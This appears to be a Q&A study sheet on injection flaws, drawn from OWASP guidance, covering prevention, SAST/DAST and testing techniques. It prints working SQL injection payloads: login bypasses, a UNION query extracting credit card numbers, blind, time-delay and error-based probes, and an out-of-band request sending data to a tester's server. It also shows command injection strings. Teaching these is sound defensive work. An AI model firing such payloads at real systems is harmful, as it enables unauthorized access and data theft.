 # Injection

### Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

[Testing for ORM Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection)

[Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

### Questions

<details>
  <summary>What is the injection?</summary>

It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

* when user-supplied data is not validated, filtered, or sanitized by the application;

* when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

* when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

* when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

* Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

* Use a positive serverside input validation;

* Escape special characters for dynamic queries; 

* Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

* Static Application Security Testing (SAST)

* Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

* secure queries:

SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

* secure configuration:

It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

* secure authentication:

Authentication should take place only over a secure channel.

* secure communication:

Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

* Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

* Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

* Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

Inband(inside): extract data by the same channel as for injection of the SQL code.

Out-of-band(outside): data is retrieved using a different channel.

Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

It is possible to use five general techniques or their combinations.

Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

Out-of-band: the technique used to retrieve data using a different channel;

Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are the types of Defenses?</summary>

Primary Defenses:

1. Use of Prepared Statements (with Parameterized Queries);
2. Use of Stored Procedures;
3. Allow-list Input Validation;
4. Escaping All User Supplied Input.

Additional Defenses:

1. Enforcing Least Privilege;
2. Performing Allow-list Input Validation as a Secondary.

</details>

<details>
  <summary>What are detection techniques?</summary>

Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

Consider the following SQL query:

`SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

Suppose we insert the following Username and Password values:

`$username = 1' or '1' = '1`

`$password = 1' or '1' = '1`

The query will be:

`SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

`http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

Another example query is the following:

`SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

The query has two problems: the parentheses and the MD5 hash function. The values could be:

`$username = 1' or '1' = '1'))/*`

`$password = foo`

In this way, we’ll get the following query:

`SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

(Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
The request URL will be:

`http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

`$username = 1' or '1' = '1')) LIMIT 1/*`

`$password = foo`

In this way, we create a request like the following:

`http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

Consider the request:

`http://www.example.com/product.php?id=10 AND 1=2`

`SELECT * FROM products WHERE id_product=10 AND 1=2`

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

`http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

A way to exploit the above scenario would be:

`http://www.example.com/product.php?id=10; INSERT INTO users (…)`

This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

MySql:

  You have an error in your SQL syntax; check the manual
  that corresponds to your MySQL server version for the
  right syntax to use near '\'' at line 1

`SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

Oracle:

  ORA-00933: SQL command not properly ended
  MS SQL Server:
  Microsoft SQL Native Client error ‘80040e14’
  Unclosed quotation mark after the character string

`SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

PostgreSQL:

  Query failed: ERROR: syntax error at or near
  "’" at character 56 in /www/site/test.php on line 121.

If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

`SELECT Name, Phone, Address FROM Users WHERE Id=$id`

We will set the following $id value:

`$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

We will have the following query:

`SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

`http://www.example.com/product.php?id=10 ORDER BY 10--`

After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

`http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

If the query fails, the tester will probably see a message like:

  All cells in a column must have the same datatype
  If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

`http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

`http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

`http://www.example.com/index.php?id=1'`

Suppose that the database query would be:

`SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

* SUBSTRING (text, start, length);
* ASCII (char);
* LENGTH (text).

As an example, we will use the following value for Id:

`$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

That creates the following query:

`SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

`$Id=1' AND '1' = '2`

Which will create the following query:

`SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

It is possible to get length of the field:

`$Id=1' AND LENGTH(username)=N AND '1' = '1`

Where N is the number of characters that we have analyzed up to now:

`SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. Oracle 10g):

`http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

`ORA-292257: host SCOTT unknown`

Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script that executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be (e.g. MySql 5.x):

`http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.

Consider the following SQL Server Stored Procedure:

  Create procedure user_login @username varchar(20), @passwd varchar(20)
  As
  Declare @sqlstring varchar(250)
  Set @sqlstring  = ‘
  Select 1 from users
  Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
  exec(@sqlstring)
  Go

User input:

`anyusername or 1=1'`

`anypassword`

This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>

<details>
  <summary>What is OS command injection?</summary>

OS command injection is a technique used via a web interface to execute OS commands on a web server. Any web interface that does not sanitize data is subject to this exploit.

</details>

<details>
  <summary>How to test command injection?</summary>

When viewing a file in a web application, often the filename is in the URL. Perl allows piping data from a process into an open statement. The user can append the Pipe symbol | onto the end of the filename.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

It would execute the command /bin/ls.

</details>

<details>
  <summary>What special characters are possible to use for command injection?</summary>

The following special character can be used for command injection such as | ; & $ > < ' !

* cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.
* cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
* cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
* cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
* $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
* cmd : It’s used to execute specific command. For example, whoami
* >(cmd): >(ls)
* <(cmd): <(ls)

</details>

<details>
  <summary>What is ORM injection?</summary>

Object-relational mapping (ORM) Injection use SQL Injection in ORM generated data access object model.

</details>

<details>
  <summary>How to test ORM injection?</summary>

ORM layers can be prone to vulnerabilities as they extend the surface of the attack. Instead of directly targeting the application with SQL queries, you’d be focusing on abusing the ORM layer to send malicious SQL queries.

</details>
